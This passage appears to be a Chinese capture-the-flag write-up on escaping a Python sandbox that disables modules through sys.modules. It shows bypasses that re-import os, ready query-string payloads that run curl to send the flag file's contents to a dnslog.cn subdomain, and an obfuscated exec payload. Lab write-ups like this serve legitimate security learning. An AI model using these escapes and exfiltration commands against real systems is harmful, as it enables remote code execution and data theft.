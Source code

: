 

## 448

> ```python
> import sys 
> sys.modules['os']=None
> sys.modules['imp']=None
> sys.modules['subprocess']=None
> sys.modules['socket']=None
> sys.modules['timeit']=None
> sys.modules['platform']=None
> ```



可以把`sys.modules['os']`del了再重新`import os`

或者利用`shutil`复制os的内容给新的py文件再引用：

```python
import sys;del sys.modules['os'];import os;os.system()

import shutil;shutil.copy('/usr/local/lib/python3.8/os.py','a.py');import a;a.system()
```

还有y4师傅的这种做法

> Python包的环境变量有很多个，优先sys，waf是读到sys，os为none， 所以报错解决方式可以把他删了，系统找不到就会去下一个环境变量找
>
> ```python
> import sys
> del sys.modules['os']
> import os
> os.system() 
> ```



payload：

```
?True=import sys;del sys.modules['os'];import os;os.system('curl `cat /f*`.6gc26k.dnslog.cn')

?True=import shutil;shutil.copy('/usr/local/lib/python3.8/os.py','a.py');import a;a.system('curl `cat /f*`.xxx.dnslog.cn')

?True=import sys;del sys.modules['os'];import os;os.system('curl `cat /f*`.xxx.dnslog.cn') 


post：
code=str(exec(globals()[list(globals().keys())[True-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)]].args.get(str(True))))
```

## 449
